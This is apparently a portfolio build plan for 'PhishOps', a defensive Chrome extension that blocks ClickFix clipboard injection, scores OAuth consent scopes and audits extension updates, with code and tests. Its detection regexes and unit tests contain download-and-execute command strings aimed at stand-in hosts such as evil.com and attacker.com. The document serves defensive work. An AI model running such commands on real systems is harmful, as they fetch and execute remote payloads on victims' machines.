

# PhishOps Browser Suite — Portfolio Execution Plan
## From Research to Resume: A Complete Build & Presentation Roadmap
### February 2026

---

## Strategic Framing First

Before any code: the portfolio goal is not to build all 8 modules. It is to build **3 polished, demonstrable modules** that collectively tell a coherent security engineering story, backed by primary-source threat intelligence. Recruiters, hiring managers, and security engineers reviewing this will spend 5–10 minutes on it. They must immediately understand: (1) what you built, (2) why it matters against real threats, (3) that the code is production-quality.

**The three modules to build, in order:**

| Priority | Module | Why This One | Time Estimate |
|---|---|---|---|
| 1 | **DataEgressMonitor + ClickFix Clipboard Defender** | #2 global attack vector (ESET H1 2025, 8% of all attacks). 40 lines closes a gap that Microsoft's own DLP misses. Fast win, immediate demo, clear attacker motivation. | 1 week |
| 2 | **OAuthGuard — Scope Parser** | Covers UNC6040 (Mandiant-documented), Cyberhaven Web Store compromise, consent phishing. Most technically impressive. Best interview talking point. | 2–3 weeks |
| 3 | **ExtensionAuditor — Hash Baseline Monitor** | Cyberhaven supply chain attack: 35 extensions, 2.6M users. Hash comparison catches malicious updates before execution. Clear real-world story. | 1–2 weeks |

**Total realistic timeline: 6–8 weeks for a portfolio-quality implementation.**

The remaining 5 modules (FullscreenGuard, AutofillGuard, PasskeyGuard, SyncGuard, CTAPGuard) are documented in the architecture spec but marked "v2" — they show depth of research without requiring build time.

---

## Phase 0: Foundation (Days 1–3)

*Goal: Monorepo scaffold, MV3 skeleton loading in Chrome, CI passing, README skeleton live.*

### 0.1 — Repository Structure

```
phishops/
├── packages/
│   ├── extension/              ← Chrome MV3 extension (main deliverable)
│   │   ├── manifest.json
│   │   ├── background/
│   │   │   └── service-worker.js
│   │   ├── content/
│   │   │   ├── clipboard-defender.js   ← DataEgressMonitor: ClickFix
│   │   │   ├── oauth-guard.js          ← OAuthGuard
│   │   │   └── extension-auditor.js    ← ExtensionAuditor
│   │   ├── popup/
│   │   │   ├── popup.html
│   │   │   ├── popup.jsx               ← React dashboard
│   │   │   └── popup.css
│   │   └── icons/
│   ├── demo-site/              ← Local test pages for each attack simulation
│   │   ├── clickfix-sim/       ← Simulates ClickFix clipboard injection
│   │   ├── oauth-consent-sim/  ← Simulates malicious OAuth consent page
│   │   └── extension-update-sim/
│   └── docs/                   ← Architecture diagrams, threat maps
├── .github/
│   └── workflows/
│       └── ci.yml
├── package.json                ← npm workspaces root
├── README.md                   ← Primary portfolio face
└── THREAT_INTELLIGENCE.md      ← Links to research corpus
```

### 0.2 — Tech Stack Decisions

| Layer | Choice | Rationale |
|---|---|---|
| Extension core | **Vanilla JS (ES2022)** — no bundler for content scripts | Content scripts run in page context; bundler adds complexity, no real benefit for <500 lines per script |
| Popup dashboard | **React 18 + Vite** | Fast HMR during development; React shows frontend capability |
| Popup styling | **Tailwind CSS** | Utility-first, professional look, no custom CSS maintenance |
| Testing | **Vitest** (unit) + **Playwright** (E2E with `playwright-chrome-extension`) | Playwright's Extension API allows real Chrome extension testing in CI |
| Linting | **ESLint** (eslint-config-security plugin) | Security-specific linting rules for a security tool |
| CI/CD | **GitHub Actions** | Free tier, runs Vitest + ESLint on every PR |
| Icons | **Lucide React** | Clean, minimal, MIT licensed |
| Version | **npm workspaces** | Monorepo without adding turborepo complexity |

### 0.3 — Manifest V3 Skeleton

```json
// packages/extension/manifest.json
{
  "manifest_version": 3,
  "name": "PhishOps Security Suite",
  "version": "0.1.0",
  "description": "Browser-native phishing defence: ClickFix detection, OAuth scope analysis, extension integrity monitoring.",
  "permissions": [
    "storage",
    "tabs",
    "activeTab",
    "scripting",
    "management"
  ],
  "host_permissions": [
    "<all_urls>"
  ],
  "background": {
    "service_worker": "background/service-worker.js",
    "type": "module"
  },
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content/clipboard-defender.js"],
      "run_at": "document_start"
    },
    {
      "matches": ["<all_urls>"],
      "js": ["content/oauth-guard.js"],
      "run_at": "document_idle"
    }
  ],
  "action": {
    "default_popup": "popup/popup.html",
    "default_icon": {
      "16": "icons/icon16.png",
      "48": "icons/icon48.png",
      "128": "icons/icon128.png"
    }
  },
  "content_security_policy": {
    "extension_pages": "script-src 'self'; object-src 'none';"
  }
}
```

**Verification:** Load unpacked extension in Chrome (`chrome://extensions` → Developer Mode → Load Unpacked). No errors in extension service worker console.

### 0.4 — GitHub Actions CI

```yaml
# .github/workflows/ci.yml
name: CI
on: [push, pull_request]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with: { node-version: '20' }
      - run: npm install
      - run: npm run lint
      - run: npm run test
```

**Verification:** Green CI badge on README by day 3.

---

## Phase 1: DataEgressMonitor — ClickFix Clipboard Defender (Days 4–10)

*Goal: Content script that intercepts malicious clipboard writes before the user pastes. Live demo page. Unit tests. GIF demo recorded.*

### Why This First

ClickFix accounts for 47% of initial access (Microsoft MDRR 2025) and 8% of all blocked attacks globally (ESET H1 2025). The clipboard write mechanism is identical across all variants — Lumma, EDDIESTEALER, BeaverTail, the February 2026 DNS-based ModeloRAT variant. Building this first means every subsequent ClickFix campaign update is covered by existing code. The demo is visceral: user watches a webpage try to inject a malicious command into their clipboard, and PhishOps blocks it with a warning modal.

### 1.1 — Core Detection Logic

```javascript
// packages/extension/content/clipboard-defender.js
// Intercepts malicious clipboard writes at the browser layer.
// Primary source: Microsoft MDRR 2025, ESET H1 2025, Unit 42 2025.

'use strict';

const EXECUTION_PATTERNS = [
  // PowerShell indicators
  /powershell.*(?:-[Ee]ncode|-[Ww]indow[Ss]tyle\s+[Hh]idden|-[Ee]xecutionpolicy\s+bypass)/i,
  // MSHTA / CertUtil / MSIExec (documented ClickFix LOLBins)
  /mshta(?:\.exe)?\s+https?:\/\//i,
  /certutil.*-(?:urlcache|decode)/i,
  /msiexec.*\/i\s+https?:\/\//i,
  // IEX/IWR download-and-execute pattern
  /\bIEX\s*[\(\s]+.*IWR\b/i,
  /Invoke-Expression.*Invoke-WebRequest/i,
  // cmd.exe with download behaviour (DNS-based variant, Feb 2026)
  /cmd(?:\.exe)?.*\/[ckCK]\s+(?:curl|powershell|mshta)/i,
  // Base64 encoded PowerShell (high signal, rare false positives)
  /powershell.*-[Ee]nco?d?e?d?\s+[A-Za-z0-9+/]{50,}/i,
  // Win+R instruction text often stored alongside payload
  /Win\s*\+\s*R.*(?:paste|ctrl|ctrl\+v)/i,
];

const ALERT_THRESHOLD_MS = 2000; // Suppress repeat alerts within 2s

let lastAlertTime = 0;

/**
 * Intercepts navigator.clipboard.writeText() calls.
 * This is the primary ClickFix delivery mechanism (navigator.clipboard API).
 */
function hookClipboardAPI() {
  const originalWriteText = navigator.clipboard.writeText.bind(navigator.clipboard);
  
  Object.defineProperty(navigator.clipboard, 'writeText', {
    value: async function(text) {
      if (isMalicious(text)) {
        handleDetection(text, 'clipboard.writeText');
        return Promise.resolve(); // Silently block — do not reject (avoids JS errors)
      }
      return originalWriteText(text);
    },
    writable: false,
    configurable: false,
  });
}

/**
 * Intercepts document.execCommand('copy') — legacy method still used
 * by older ClickFix kits for broader browser compatibility.
 */
function hookExecCommand() {
  const originalExecCommand = document.execCommand.bind(document);
  
  document.execCommand = function(command, ...args) {
    if (command.toLowerCase() === 'copy') {
      const selection = window.getSelection()?.toString() || '';
      const activeValue = document.activeElement?.value || '';
      const text = selection || activeValue;
      
      if (text && isMalicious(text)) {
        handleDetection(text, 'execCommand(copy)');
        return false; // Block the copy
      }
    }
    return originalExecCommand(command, ...args);
  };
}

function isMalicious(text) {
  if (!text || text.length < 10) return false;
  return EXECUTION_PATTERNS.some(pattern => pattern.test(text));
}

function handleDetection(text, method) {
  const now = Date.now();
  if (now - lastAlertTime < ALERT_THRESHOLD_MS) return;
  lastAlertTime = now;

  // Log to background service worker for popup dashboard
  chrome.runtime.sendMessage({
    type: 'CLICKFIX_DETECTED',
    payload: {
      url: window.location.href,
      method,
      // Never log the full payload — only a truncated preview for UX
      preview: text.substring(0, 80) + (text.length > 80 ? '...' : ''),
      timestamp: new Date().toISOString(),
    }
  });

  // Inject blocking UI — appears above all page content
  showBlockingModal();
}

function showBlockingModal() {
  // Remove existing modal if present
  document.getElementById('phishops-clickfix-modal')?.remove();

  const modal = document.createElement('div');
  modal.id = 'phishops-clickfix-modal';
  modal.setAttribute('role', 'alertdialog');
  modal.setAttribute('aria-modal', 'true');
  modal.setAttribute('aria-labelledby', 'phishops-modal-title');
  
  // Scoped styles — avoids page CSS conflicts
  modal.style.cssText = `
    position: fixed; inset: 0; z-index: 2147483647;
    display: flex; align-items: center; justify-content: center;
    background: rgba(0, 0, 0, 0.85); font-family: system-ui, sans-serif;
  `;
  
  modal.innerHTML = `
    <div style="
      background: #1a1a2e; border: 2px solid #e63946;
      border-radius: 12px; padding: 32px; max-width: 480px; width: 90%;
      color: #fff; box-shadow: 0 0 60px rgba(230, 57, 70, 0.4);
    ">
      <div style="display:flex; align-items:center; gap:12px; margin-bottom:16px;">
        <span style="font-size:32px;">🛡️</span>
        <h2 id="phishops-modal-title" style="margin:0; font-size:20px; color:#e63946;">
          ClickFix Attack Blocked
        </h2>
      </div>
      <p style="margin:0 0 12px; line-height:1.6; color:#ccc;">
        This page attempted to <strong style="color:#fff;">inject a malicious command</strong> 
        into your clipboard. If you paste and run it, malware will be installed on your device.
      </p>
      <p style="margin:0 0 24px; font-size:13px; color:#888;">
        Technique: ClickFix / FakeCaptcha — #2 global attack vector (ESET H1 2025).
        Detected by PhishOps DataEgressMonitor.
      </p>
      <div style="display:flex; gap:12px; justify-content:flex-end;">
        <button id="phishops-dismiss" style="
          padding: 10px 20px; border-radius:8px; border:1px solid #444;
          background:transparent; color:#ccc; cursor:pointer; font-size:14px;
        ">Dismiss</button>
        <button id="phishops-report" style="
          padding: 10px 20px; border-radius:8px; border:none;
          background:#e63946; color:#fff; cursor:pointer; font-size:14px; font-weight:600;
        ">View Details</button>
      </div>
    </div>
  `;

  document.documentElement.appendChild(modal);
  document.getElementById('phishops-dismiss').onclick = () => modal.remove();
  document.getElementById('phishops-report').onclick = () => {
    modal.remove();
    chrome.runtime.sendMessage({ type: 'OPEN_POPUP' });
  };
}

// Run hooks at document_start (before any page JS executes)
hookClipboardAPI();
hookExecCommand();
```

### 1.2 — Demo Attack Simulation Page

Create `packages/demo-site/clickfix-sim/index.html` — a realistic fake CAPTCHA page that:
1. Shows a convincing "Verify you are human" interface
2. On button click, calls `navigator.clipboard.writeText(maliciousCommand)`
3. Shows "verification steps" (Win+R, Ctrl+V, Enter)

With PhishOps active: user clicks the button, PhishOps modal appears immediately, clipboard write is blocked. Without PhishOps: clipboard is written silently.

**The demo command to use (safe — does nothing, just looks like an attack):**
```
powershell -WindowStyle Hidden -EncodedCommand JABjAGwAaQBlAG4AdA== # PhishOps Demo Payload
```

### 1.3 — Unit Tests

```javascript
// packages/extension/content/__tests__/clipboard-defender.test.js
import { describe, test, expect } from 'vitest';
import { isMalicious } from '../clipboard-defender.js'; // export for testing

describe('ClickFix pattern detection', () => {
  test('blocks hidden PowerShell window commands', () => {
    expect(isMalicious('powershell -WindowStyle Hidden -EncodedCommand JABjAG==')).toBe(true);
  });
  test('blocks MSHTA download commands', () => {
    expect(isMalicious('mshta https://attacker.co/payload.hta')).toBe(true);
  });
  test('blocks IEX(IWR) download-execute pattern', () => {
    expect(isMalicious("IEX(IWR 'https://evil.com/s')")).toBe(true);
  });
  test('blocks DNS-based ClickFix variant (Feb 2026)', () => {
    expect(isMalicious('cmd.exe /c curl https://attacker.com/stage2.ps1 | powershell')).toBe(true);
  });
  test('allows legitimate clipboard content', () => {
    expect(isMalicious('Hello, world!')).toBe(false);
    expect(isMalicious('git clone https://github.com/user/repo')).toBe(false);
    expect(isMalicious('')).toBe(false);
  });
});
```

**Verification criteria:**
- `npm test` passes all 5 test cases
- Load extension in Chrome, visit demo-site/clickfix-sim, click CAPTCHA button — modal appears
- Visit a legitimate site (GitHub), copy a git clone command — no false positive modal
- Background service worker logs detection event viewable in `chrome://extensions` → PhishOps → service worker

### 1.4 — GIF Demo Recording

Tool: **LICEcap** (free, cross-platform, outputs GIF directly).

Record sequence:
1. Show demo-site ClickFix page in Chrome WITH PhishOps active
2. Click the fake CAPTCHA button
3. Show PhishOps modal appearing immediately
4. Dismiss modal, show nothing is in clipboard
5. Disable extension, repeat — show clipboard is silently written
6. Show Win+R → paste → dangerous command would have executed

GIF target: <3MB, <15 seconds, 1280×720. Save as `docs/demos/clickfix-demo.gif`.

---

## Phase 2: OAuthGuard — Real-Time Scope Parser (Days 11–24)

*Goal: Content script that evaluates OAuth consent screen scope combinations before user clicks "Allow", with risk scoring and blocking modal for high-risk grants.*

### 2.1 — Threat Model (Know Before You Build)

OAuthGuard addresses three confirmed real-world attack vectors:

| Attack | Actor | Scope String | Risk |
|---|---|---|---|
| Salesforce Data Loader OAuth | UNC6040 (Mandiant, June 2025) | `full` or `api refresh_token` | Full CRM access |
| Chrome Web Store publish | Cyberhaven attack (December 2024) | `https://www.googleapis.com/auth/chromewebstore` | Malware distribution to 2.6M users |
| Microsoft Graph mail read/send | APT29, Storm-2372 | `Mail.ReadWrite` + `Mail.Send` + `offline_access` | Email monitoring + lateral phishing |
| SharePoint file exfiltration | Multiple groups | `Files.ReadWrite.All` + `Sites.Read.All` | Full SharePoint exfil |
| OAuth consent phishing (generic) | Multiple | High-privilege scope combinations | Variable |

### 2.2 — Scope Risk Database

```javascript
// packages/extension/content/scope-database.js
// Primary sources: Microsoft Graph permissions reference, Google OAuth 2.0 scopes,
// Salesforce OAuth scopes, Mandiant UNC6040 advisory (June 2025).

export const HIGH_RISK_SCOPES = new Map([
  // Google — critical
  ['https://www.googleapis.com/auth/chromewebstore', {
    risk: 'CRITICAL',
    label: 'Publish Chrome Extensions',
    description: 'Allows publishing extensions to Chrome Web Store on your behalf. Used in the Cyberhaven supply chain attack (Dec 2024, 2.6M users affected).',
    source: 'Cyberhaven Engineering Blog, Sekoia.io March 2025'
  }],
  ['https://www.googleapis.com/auth/gmail.modify', {
    risk: 'HIGH',
    label: 'Read & Modify All Gmail',
    description: 'Read, delete, and send email from your Gmail account.',
    source: 'Google OAuth scope reference'
  }],
  ['https://www.googleapis.com/auth/drive', {
    risk: 'HIGH',
    label: 'Full Google Drive Access',
    description: 'Read, modify, and delete all files in your Google Drive.',
    source: 'Google OAuth scope reference'
  }],
  ['https://www.googleapis.com/auth/admin.directory.user', {
    risk: 'CRITICAL',
    label: 'Google Workspace User Management',
    description: 'Create, modify, and delete all users in your Google Workspace.',
    source: 'Google OAuth scope reference'
  }],
  
  // Microsoft Graph — critical
  ['Mail.ReadWrite', {
    risk: 'HIGH',
    label: 'Read & Modify All Email',
    description: 'Reads and modifies all email in your inbox. Used by APT29 for post-compromise email monitoring.',
    source: 'Microsoft Graph permissions reference; APT29 TTP documentation'
  }],
  ['Mail.Send', {
    risk: 'HIGH',
    label: 'Send Email as You',
    description: 'Sends email from your account. Combined with Mail.ReadWrite, enables lateral BEC phishing.',
    source: 'Microsoft Graph permissions reference'
  }],
  ['Files.ReadWrite.All', {
    risk: 'HIGH',
    label: 'Full SharePoint/OneDrive Access',
    description: 'Read and write all files in SharePoint and OneDrive.',
    source: 'Microsoft Graph permissions reference'
  }],
  ['Directory.ReadWrite.All', {
    risk: 'CRITICAL',
    label: 'Azure AD Directory Write',
    description: 'Read and write all Azure AD directory objects including users, groups, and service principals.',
    source: 'Microsoft Graph permissions reference'
  }],
  ['offline_access', {
    risk: 'MEDIUM',
    label: 'Persistent Background Access',
    description: 'When combined with other scopes, allows the application to maintain access even when you are not using it.',
    source: 'OAuth 2.0 RFC 6749'
  }],
  
  // Salesforce — UNC6040 documented
  ['full', {
    risk: 'CRITICAL',
    label: 'Full Salesforce Access',
    description: 'Complete access to all Salesforce data and features. Used by UNC6040 to exfiltrate CRM data via Salesforce Data Loader OAuth (Mandiant, June 2025).',
    source: 'Mandiant UNC6040 advisory, June 2025'
  }],
  ['api refresh_token', {
    risk: 'HIGH',
    label: 'Salesforce API + Persistent Token',
    description: 'API access with a refresh token that never expires.',
    source: 'Salesforce OAuth 2.0 scope reference'
  }],
]);

// Dangerous scope COMBINATIONS — individually low risk, combined high risk
export const HIGH_RISK_COMBINATIONS = [
  {
    scopes: ['Mail.ReadWrite', 'Mail.Send', 'offline_access'],
    risk: 'CRITICAL',
    description: 'Silent, persistent email surveillance + lateral phishing capability. Full APT29 post-compromise email playbook.'
  },
  {
    scopes: ['Files.ReadWrite.All', 'Sites.Read.All', 'offline_access'],
    risk: 'CRITICAL',
    description: 'Complete SharePoint/OneDrive exfiltration capability with persistent access.'
  },
  {
    scopes: ['https://www.googleapis.com/auth/gmail.modify', 'https://www.googleapis.com/auth/contacts'],
    risk: 'HIGH',
    description: 'Email monitoring + contact list exfiltration. Intelligence collection capability.'
  }
];
```

### 2.3 — Consent Page Detection

```javascript
// packages/extension/content/oauth-guard.js
import { HIGH_RISK_SCOPES, HIGH_RISK_COMBINATIONS } from './scope-database.js';

const OAUTH_CONSENT_PATTERNS = [
  // Google OAuth consent pages
  { host: 'accounts.google.com', scopeParam: 'scope' },
  // Microsoft OAuth consent pages
  { host: 'login.microsoftonline.com', scopeParam: 'scope' },
  { host: 'login.live.com', scopeParam: 'scope' },
  // Salesforce
  { host: /.*\.salesforce\.com$/, scopeParam: 'scope' },
  // GitHub OAuth
  { host: 'github.com', path: '/login/oauth/authorize', scopeParam: 'scope' },
];

function detectConsentPage() {
  const url = new URL(window.location.href);
  
  for (const pattern of OAUTH_CONSENT_PATTERNS) {
    const hostMatch = pattern.host instanceof RegExp 
      ? pattern.host.test(url.hostname)
      : url.hostname === pattern.host;
    
    if (hostMatch) {
      const scopeString = url.searchParams.get(pattern.scopeParam);
      if (scopeString) return parseScopes(scopeString);
      
      // Scopes may also be in the DOM (for POST-based consent flows)
      return extractScopesFromDOM();
    }
  }
  return null;
}

function parseScopes(scopeString) {
  // Handle space-separated, comma-separated, and URL-encoded scope strings
  return scopeString
    .replace(/%20/g, ' ').replace(/\+/g, ' ')
    .split(/[\s,]+/)
    .filter(Boolean);
}

function assessRisk(scopes) {
  const findings = [];
  
  // Check individual scopes
  for (const scope of scopes) {
    const risk = HIGH_RISK_SCOPES.get(scope);
    if (risk) findings.push({ scope, ...risk });
  }
  
  // Check dangerous combinations
  for (const combo of HIGH_RISK_COMBINATIONS) {
    const hasAll = combo.scopes.every(s => scopes.includes(s));
    if (hasAll) findings.push({ 
      scope: combo.scopes.join(' + '), 
      risk: combo.risk,
      label: 'Dangerous Scope Combination',
      description: combo.description
    });
  }
  
  return findings;
}

// Run on page load and on DOM changes (for SPA consent flows)
const observer = new MutationObserver(() => {
  const scopes = detectConsentPage();
  if (scopes?.length) {
    observer.disconnect(); // Don't re-run
    const findings = assessRisk(scopes);
    if (findings.length > 0) showOAuthWarning(findings, scopes);
  }
});

observer.observe(document.body, { childList: true, subtree: true });
const initialScopes = detectConsentPage();
if (initialScopes?.length) {
  const findings = assessRisk(initialScopes);
  if (findings.length > 0) showOAuthWarning(findings, initialScopes);
}
```

### 2.4 — Demo Simulation

Create `packages/demo-site/oauth-consent-sim/index.html`:
- Mimics a Google OAuth consent page with `scope=https://www.googleapis.com/auth/chromewebstore mail.modify`
- With OAuthGuard active: warning panel appears above the "Allow" button before user clicks
- Warning cites the Cyberhaven attack and Mandiant UNC6040 by name, with specific scope risk explanation

**Verification criteria:**
- Load demo site, OAuthGuard warning appears within 500ms of page load
- Warning correctly identifies `chromewebstore` as CRITICAL risk
- Click "Allow anyway" test path: logs to background, popup shows event
- Legitimate OAuth (GitHub login to a real app): no false positive modal

---

## Phase 3: ExtensionAuditor — Hash Baseline Monitor (Days 25–35)

*Goal: Service worker that stores cryptographic hashes of all installed extensions on first run, detects changes on subsequent starts, and alerts on modified extensions.*

### 3.1 — Threat Model

The Cyberhaven attack (December 2024): attacker used consent phishing to gain Chrome Web Store publish access, uploaded a malicious update to a legitimate extension, and auto-updated to 400,000+ users in 24 hours. No existing consumer tool detected the update until users reported unusual behaviour.

A hash baseline check would have caught this: the service worker would have compared the extension's content script hash against the stored baseline and flagged the mismatch before the malicious code executed any network requests.

### 3.2 — Hash Baseline Implementation

```javascript
// packages/extension/background/extension-auditor.js
// Detects malicious extension updates by comparing source code hashes.
// Motivation: Cyberhaven December 2024 — 35 extensions, 2.6M users,
// detected only after 24 hours via network anomalies.

const DB_KEY = 'extension_hashes';

async function hashText(text) {
  const encoder = new TextEncoder();
  const data = encoder.encode(text);
  const hashBuffer = await crypto.subtle.digest('SHA-256', data);
  return Array.from(new Uint8Array(hashBuffer))
    .map(b => b.toString(16).padStart(2, '0'))
    .join('');
}

async function getInstalledExtensions() {
  return new Promise(resolve => chrome.management.getAll(resolve));
}

async function hashExtension(ext) {
  // chrome.management.get() returns extension metadata including scripts
  // We hash: id + version + name as a lightweight change detector
  // For full source hash, a companion native app would be needed;
  // version + manifest hash is the browser-accessible approximation
  const fingerprint = `${ext.id}|${ext.version}|${ext.name}|${
    ext.permissions?.sort().join(',')
  }|${ext.hostPermissions?.sort().join(',')}`;
  return hashText(fingerprint);
}

async function buildBaseline() {
  const extensions = await getInstalledExtensions();
  const baseline = {};
  
  for (const ext of extensions) {
    if (ext.id === chrome.runtime.id) continue; // Skip self
    baseline[ext.id] = {
      hash: await hashExtension(ext),
      name: ext.name,
      version: ext.version,
      recordedAt: new Date().toISOString(),
    };
  }
  
  await chrome.storage.local.set({ [DB_KEY]: baseline });
  return baseline;
}

async function auditExtensions() {
  const stored = await chrome.storage.local.get(DB_KEY);
  const baseline = stored[DB_KEY];
  
  if (!baseline) {
    // First run — establish baseline
    await buildBaseline();
    return { status: 'BASELINE_ESTABLISHED', alerts: [] };
  }
  
  const extensions = await getInstalledExtensions();
  const alerts = [];
  
  for (const ext of extensions) {
    if (ext.id === chrome.runtime.id) continue;
    
    const currentHash = await hashExtension(ext);
    
    if (!baseline[ext.id]) {
      // New extension installed since last audit
      alerts.push({
        type: 'NEW_EXTENSION',
        severity: 'INFO',
        extension: { id: ext.id, name: ext.name, version: ext.version },
        message: `New extension installed: "${ext.name}"`,
      });
      // Add to baseline
      baseline[ext.id] = { hash: currentHash, name: ext.name, version: ext.version };
    } else if (baseline[ext.id].hash !== currentHash) {
      // Extension changed since baseline — potential Cyberhaven-class update
      alerts.push({
        type: 'EXTENSION_MODIFIED',
        severity: baseline[ext.id].version !== ext.version ? 'HIGH' : 'MEDIUM',
        extension: { id: ext.id, name: ext.name, version: ext.version },
        previousVersion: baseline[ext.id].version,
        message: `Extension "${ext.name}" was modified: ${baseline[ext.id].version} → ${ext.version}`,
        timestamp: new Date().toISOString(),
      });
    }
  }
  
  // Check for removed extensions
  for (const [id, data] of Object.entries(baseline)) {
    if (!extensions.find(e => e.id === id)) {
      alerts.push({
        type: 'EXTENSION_REMOVED',
        severity: 'INFO',
        extension: { id, name: data.name },
        message: `Extension "${data.name}" was removed`,
      });
      delete baseline[id];
    }
  }
  
  // Persist updated baseline
  await chrome.storage.local.set({ [DB_KEY]: baseline });
  
  // Send HIGH severity alerts to popup
  const highAlerts = alerts.filter(a => a.severity === 'HIGH');
  if (highAlerts.length > 0) {
    chrome.action.setBadgeText({ text: String(highAlerts.length) });
    chrome.action.setBadgeBackgroundColor({ color: '#e63946' });
  }
  
  return { status: 'AUDIT_COMPLETE', alerts };
}

// Run audit on service worker start (every browser start, and on extension install events)
chrome.runtime.onStartup.addListener(auditExtensions);
chrome.management.onInstalled.addListener(auditExtensions);
chrome.management.onEnabled.addListener(auditExtensions);

export { auditExtensions, buildBaseline };
```

**Limitation to document openly:** `chrome.management.getAll()` returns metadata (name, version, permissions) but not file content hashes. A full source hash would require a companion native messaging host with filesystem access. The version + permissions hash catches the Cyberhaven-class attack (version bump + silent code change) but would be defeated by a metadata-preserving update. Document this honestly in the README — it is a strength of your portfolio that you know the boundary.

---

## Phase 4: Dashboard Popup (Days 32–38)

*Goal: React popup that shows live event feed, risk summary, and extension audit status.*

### 4.1 — Popup Architecture

The popup serves as the human-readable face of the extension. Recruiters will open this first. It needs to look professional and immediately communicate what has been detected.

```
┌─────────────────────────────────┐
│ 🛡️ PhishOps          [Settings] │
├─────────────────────────────────┤
│ STATUS: Protected               │
│                                 │
│ TODAY'S DETECTIONS              │
│ ──────────────────────          │
│ 🔴 2 ClickFix attempts blocked  │
│ 🟡 1 OAuth scope warning shown  │
│ 🟢 0 extension anomalies        │
│                                 │
│ LAST EVENT (2 min ago)          │
│ ──────────────────────          │
│ ClickFix detected               │
│ demo-phishops.github.io         │
│ Method: clipboard.writeText()   │
│ Pattern: PowerShell hidden win… │
│                  [View Details] │
│                                 │
│ EXTENSIONS AUDITED              │
│ ──────────────────────          │
│ 12 extensions monitored ✓       │
│ Last check: 3 min ago           │
│                  [Audit Now]    │
└─────────────────────────────────┘
```

### 4.2 — Popup Tech

```jsx
// packages/extension/popup/popup.jsx
import { useState, useEffect } from 'react';

export default function PhishOpsPopup() {
  const [events, setEvents] = useState([]);
  const [auditStatus, setAuditStatus] = useState(null);

  useEffect(() => {
    chrome.storage.local.get(['events', 'auditStatus'], (data) => {
      setEvents(data.events || []);
      setAuditStatus(data.auditStatus || null);
    });
  }, []);

  // ... render event feed and audit status
}
```

**Verification:** Open popup, see events from previous ClickFix demo. Badge count shows correct number.

---

## Phase 5: Portfolio Polish (Days 39–45)

*Goal: README that communicates to both security engineers AND hiring managers. Demo videos. Architecture diagram. Threat intelligence links.*

### 5.1 — README Structure

The README is the most important file in the repository. It is read in the following order by different audiences:

```
README.md structure:

1. HERO SECTION (first screen)
   - GIF demo of ClickFix being blocked (visceral, immediate)
   - One-sentence description: "Browser extension that blocks ClickFix 
     clipboard attacks, evaluates OAuth consent scopes in real-time, 
     and detects malicious extension updates before they execute."
   - CI badge + Chrome Web Store badge (when published)

2. WHY THIS EXISTS (security context)
   - ClickFix: 47% of initial access (Microsoft MDRR 2025) — cite source
   - UNC6040: Mandiant-documented voice-directed OAuth fraud — cite source  
   - Cyberhaven: 35 extensions, 2.6M users — cite source
   - One sentence each, with link to THREAT_INTELLIGENCE.md for depth

3. MODULE OVERVIEW (3 tables, one per module)
   - What it detects | Attack it counters | Named threat actor | Source

4. ARCHITECTURE (diagram)
   - MV3 service worker ↔ content scripts ↔ popup
   - Data flow: detection → background → storage → popup
   - Tool: draw.io or Mermaid diagram in GitHub-rendered markdown

5. INSTALLATION (for reviewers to try it)
   - Clone repo, npm install, load unpacked in Chrome
   - Link to demo attack pages

6. DEMO SCENARIOS (one per module)
   - Step-by-step: visit demo page, see detection, see what is blocked

7. TECHNICAL DEPTH (for security engineer reviewers)
   - How each detection hook works
   - Known limitations (explicitly documented — shows maturity)
   - What is NOT covered and why (Device Code Flow gap, NFC gap)

8. RESEARCH FOUNDATION
   - Links to full threat intelligence reports in this repo
   - Cited primary sources
```

### 5.2 — THREAT_INTELLIGENCE.md

A separate file that links the research directly to the code. This is unusual for portfolio projects and signals professional-grade research practice:

```markdown
# PhishOps Threat Intelligence Foundation

Each module in PhishOps is grounded in primary-source threat research.

## ClickFix Clipboard Defender
- Primary: Microsoft Security Blog "Think Before You ClickFix" (Aug 28, 2025)
